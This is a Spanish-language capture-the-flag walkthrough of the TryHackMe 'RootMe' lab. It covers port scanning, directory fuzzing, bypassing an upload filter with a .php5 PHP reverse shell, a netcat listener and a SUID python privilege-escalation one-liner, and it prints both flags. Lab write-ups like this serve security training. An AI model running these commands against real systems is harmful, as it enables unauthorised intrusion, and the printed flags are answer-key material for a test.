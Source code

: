 # RootMe

## Escaneo de puertos

Ejecutamos un mapeo de puertos con `nmap` para obtener todos los puertos y servicios abiertos de la máquina vulnerable:

```bash
sudo nmap -sV -T4 -p- 10.10.66.233
```

Tenemos SSH y HTTP (Apache) como puertos abiertos disponibles.

![](images/image.png)

## Enumeración web

Usamos el comando `gobuster` para hacer fuzzing y obtener más directorios ocultos en la página web:

```bash
gobuster dir -u http://10.10.66.233 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

De momento encontramos dos directorios potenciales: `/uploads` y `/panel`.

![](images/image-1.png)

![](images/image-2.png)

## Reverse shell

Buscamos una forma de obtener una reverse shell y obtener la flag.

Clonamos el repositorio de [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) y copianmos el contenido de `php-reverse-shell.php` en un nuevo fichero local llamado `shell.php`.

![](images/image-3.png)

Modificamos la variable `$ip` de nuestra IP en Kali.

![](images/image-4.png)

Intentamos subir el fichero, pero la web no permite subir extensiones `.php`.

![](images/image-5.png)

Probamos renombrar a `.php2`, `.php3`, `.php4`, `.php5`; funciona con `.php5`.

![](images/image-6.png)

Ponemos Netcat en escucha en nuestro equipo:

```bash
nc -lvnp 1234
```

![](images/image-7.png)

Accedemos al directorio `/uploads` y vemos nuestro fichero.

![](images/image-8.png)

Accedemos al script renombrado para lanzar la reverse shell.

![](images/image-9.png)

Ya tenemos shell. Leemos la flag de usuario en el directorio de Apache.

![](images/image-10.png)

```
THM{y0u_g0t_a_sh3ll}
```

## Escalada de privilegios

Buscamos binarios con SUID:

```bash
find / -user root -perm /4000 2>/dev/null
```

Destaca `/usr/bin/python` con SUID.

![](images/image-11.png)

Consultamos en [GTFOBins](https://gtfobins.github.io/) cómo abusar de Python con SUID.

![](images/image-12.png)

Ejecutamos el siguiente payload para obtener una shell con privilegios:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Ahora somos root.

![](images/image-13.png)

Leemos la flag de root:

![](images/image-14.png)

```
THM{pr1v1l3g3_3sc4l4t10n}
```
